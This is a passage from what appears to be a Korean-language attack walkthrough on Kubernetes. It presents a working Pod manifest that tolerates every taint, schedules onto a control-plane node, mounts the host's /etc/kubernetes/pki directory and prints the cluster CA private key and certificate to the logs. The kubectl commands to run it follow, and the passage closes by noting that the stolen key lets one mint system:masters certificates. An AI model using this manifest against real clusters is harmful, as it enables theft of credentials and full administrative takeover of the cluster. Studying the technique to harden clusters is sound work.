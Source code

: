 비어있는 `key`와 `Exists` operator의 조합으로 모든 테인트를 뚫는 톨러레이션을 적용할 수 있다.

```yaml
  tolerations:
  - key: ""
    operator: "Exists"
    effect: "NoSchedule"
```

이제 `nodeSelector`로 지정한 컨트롤 플레인 노드에 어떤 테인트가 걸려있든 Pod를 스케줄하는 것이 가능해졌다.


완성된 YAML의 내용:

```yaml
# pod-doggo-node-select.yaml
apiVersion: v1
kind: Pod
metadata:
  name: doggo
spec:
  containers:
  - name: alpine
    image: alpine
    command:
    - sh
    - -c
    - cat /etc/kubernetes/pki/ca.key; cat /etc/kubernetes/pki/ca.crt; sleep 99999;
    volumeMounts:
    - mountPath: /etc/kubernetes/pki
      name: k8s-certs
  volumes:
  - name: k8s-certs
    hostPath:
      path: /etc/kubernetes/pki
  nodeSelector:
    node-role.kubernetes.io/control-plane: ""
  tolerations:
  - key: ""
    operator: "Exists"
    effect: "NoSchedule"
```

```
kubectl apply -f pod-doggo-node-select.yaml
```

```
kubectl logs doggo
```

이제 터미널에서 로그 출력 내용을 잘 긁어서 `ca.key`와 `ca.crt` 파일로 저장한다.

#### 새로운 kubeconfig 설정

CA 키를 탈취했으니, 이제 마음껏 `system:masters` 그룹에 해당되는 인증서를 찍어낼 수 있다.
